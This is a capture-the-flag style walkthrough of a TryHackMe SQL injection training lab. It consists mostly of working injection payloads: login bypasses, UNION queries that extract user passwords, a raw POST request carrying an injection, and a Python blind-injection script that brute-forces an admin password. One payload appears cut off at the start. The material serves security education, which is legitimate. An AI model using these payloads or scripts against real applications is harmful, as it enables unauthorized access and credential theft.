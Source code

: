 # SQL Injection Lab

**Room Link:** [https://tryhackme.com/room/sqlilab](https://tryhackme.com/room/sqlilab)



## Introduction to SQL Injection: Part 1

### SQL Injection 1: Input Box Non-String

```
1 or 1=1-- -
```

### **SQL Injection 2: Input Box String**

```
1' or '1'='1'-- -
```

### SQL Injection 3: URL Injection

```
$VICTIM:5000/sesqli3/login?profileID=1' or 1=1-- -&password=a
```

**SQL Injection 4: POST Injection**

```
POST /sesqli4/login HTTP/1.1
Host: 10.10.164.155:5000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: http://10.10.164.155:5000
Connection: close
Referer: http://10.10.164.155:5000/sesqli4/login
Cookie: session=.eJy90jFrYzEMB_Dv4jmDZUu2nPk46NLt5iLJMjyaNu17PUoJ-e7nXI-jQ4dM2SwJhH_--xQ2314PCzx0eZOwP4Vfdz_CHnbBn2Q5hH0Iu_AsTz5PP1d5tuOyXTqLPd5_dmf1Itv2clzf7tdZc4mUiCJgZPw3fD-ufY7QOI8aTUYWsCaGhrWnhuRxVB61Z5JqDVDYgaFkMU-ZBdS9gF62rcexHPxyxwBxNjY5yPoR9oniefcf83vz9WHpfyGfvXQLYC0aidFb0xoVW1UpyJkUnBw9RaCEVIs0kMo5C08rFNds2ebGa4HpG2C-BdBsoEGExuRZXWZydQpkFHVuOXJXm_Mxjbm7zgeY-WKx1HtDALsWmL8B4i2AvQnUwtgGWbFOM0TqQI3ZSKypKs_Pi105F-k8mDRy9QQ4BJpdnSB-AZ7_ABfzCOM.ZO_PVg.gxMIbBhBjlFSHtc1twhp3ImdLj4
Upgrade-Insecure-Requests: 1

profileID=-1%27%20or%201=1--%20-&password=a
```

## Introduction to SQL Injection: Part 2







Shows all the table names

```
',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
```

<figure><img src="../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

Show all fields from the table usertable

```
l FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='
```

<figure><img src="../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

Shows all the fields from the table secret

```
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='
```

<figure><img src="../../.gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

Display all the values from the table secrets

```
',nickName=(SELECT group_concat(id || "," || author|| "," || secret|| ":") from secrets),email='
```

<figure><img src="../../.gitbook/assets/image (158).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Broken Authentication

```
1' or '1'='1'-- -
```

<figure><img src="../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Broken Authentication&#x20;

```
Username: ' OR 1=1-- -
```

<figure><img src="../../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>

#### **decode\_cookie.py**

```
#!/usr/bin/python3
import zlib
import sys
import json
from itsdangerous import base64_decode


def decode(cookie):
    """
    Decode a Flask cookie

    https://www.kirsle.net/wizards/flask-session.cgi
    """
    try:
        compressed = False
        payload = cookie

        if payload.startswith('.'):
            compressed = True
            payload = payload[1:]

        data = payload.split(".")[0]

        data = base64_decode(data)
        if compressed:
            data = zlib.decompress(data)

        return data.decode("utf-8")
    except Exception as e:
        return f"[Decoding error: are you sure this was a Flask session cookie? {e}]"


cookie = sys.argv[1]
data = decode(cookie)
json_data = json.loads(data)
pretty = json.dumps(json_data, sort_keys=True, indent=4, separators=(",", ": "))
print(pretty)

```



<figure><img src="../../.gitbook/assets/image (162).png" alt=""><figcaption></figcaption></figure>

```
python decode_cookie.py .eJyrVkrOSMzJSc1LTzWKLy1OLYrPTFGyMtRBF85LzE1VslJKTMnNzFOqBQAYpRNS.ZPCIPg.GEqyzNXd85i4M0Oqpt9ITOmwTOM
```

<figure><img src="../../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>



```
' UNION SELECT 1,NULL-- -
```

<figure><img src="../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

```
' UNION SELECT 1,2-- - 
```

<figure><img src="../../.gitbook/assets/image (165).png" alt=""><figcaption></figcaption></figure>

Enmerutate passwords, the below only returns the first result which we probably don't want.

```
' UNION SELECT 1, password from users-- -
```

<figure><img src="../../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

This way concats all the passwords

```
' UNION SELECT 1,group_concat(password) FROM users-- -
```

<figure><img src="../../.gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Broken Authentication 3 (Blind Injection)



#### challenge3-exploit.py

```
#!/usr/bin/python3
import sys
import requests
import string


def send_p(url, query):
    payload = {"username": query, "password": "admin"}
    try:
        r = requests.post(url, data=payload, timeout=3)
    except requests.exceptions.ConnectTimeout:
        print("[!] ConnectionTimeout: Try to adjust the timeout time")
        sys.exit(1)
    return r.text


def main(addr):
    url = f"http://{addr}/challenge3/login"
    flag = ""
    password_len = 38
    # Not the most efficient way of doing it...
    for i in range(1, password_len):
        for c in string.ascii_lowercase + string.ascii_uppercase + string.digits + "{}":
            # Convert char to hex and remove "0x"
            h = hex(ord(c))[2:]
            query = "admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1)," \
                f"{i},1)=CAST(X'{h}' AS TEXT)--"

            resp = send_p(url, query)
            if not "Invalid" in resp:
                flag += c
                print(flag)
    print(f"[+] FLAG: {flag}")


if __name__ == "__main__":
    if len(sys.argv) == 1:
        print(f"Usage: {sys.argv[0]} MACHINE_IP:PORT")
        sys.exit(0)
    main(sys.argv[1])

```



**Kali**

```
python challenge3-exploit.py $KALI:5000
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Vulnerable Notes

Create user

```
Username: '  union select 1,group_concat(password) from users'
Password: blah
```



<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Vulnerable Startup: Change Password

**Signup**

```
Username: admin'-- -
```

## Vulnerable Startup: Book Title

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
') union select 1,group_concat(username),group_concat(password),4 from users-- -
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Book Title 2

```
' union select '-1''union select group_concat(username),group_concat(password),3,4 from users-- -
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>























